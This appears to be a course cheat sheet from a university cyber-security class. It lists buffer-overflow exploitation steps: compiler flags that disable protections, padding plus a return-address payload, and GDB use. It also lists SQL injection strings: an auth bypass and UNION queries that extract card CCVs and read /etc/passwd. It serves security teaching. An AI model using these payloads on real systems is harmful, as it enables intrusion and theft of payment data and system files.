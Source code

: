 # UNIMORE-cyber-security

## Buffer Overflow
```commandline
gcc -w -m32 -fno-stack-protector -fno-pic -no-pie -g -o
```

```commandline
python3 -c 'print("A"*number)' | ./esercizio1
```

### GDB
```commandline
$ gdb esercizio1
(gdb) disassamble main
```

### BE AWARE!!
```commandline
mov (or movb, movl, movw, movq)
lea
cmpl
```

### python2
```python
a = ""
for _ in range(10):
    a += "A"
print(a + '\x6b\x84\x04\x08')
```

### python3
```python
import sys

length = 10
payload = b"A" * length + b'\x6b\x84\x04\x08'
sys.stdout.buffer.write(payload)
```

## SQL Injection
```commandline
'-- 
```
```commandline
' or ''='' -- 
```
> a space after the -- (comment macro) is required
```commandline
' union select null, table_name, column_name,null,null,null,null from INFORMATION_SCHEMA.COLUMNS where table_name = 'credit_cards' -- 
```
```commandline
' union select null, ccv, expiration,null,null,null,null from credit_cards where ccnumber=1234567812345678 -- 
```
```commandline
' union select null, LOAD_FILE('/etc/passwd'), null,null,null,null,null from credit_cards where ccnumber=1234567812345678 --
```
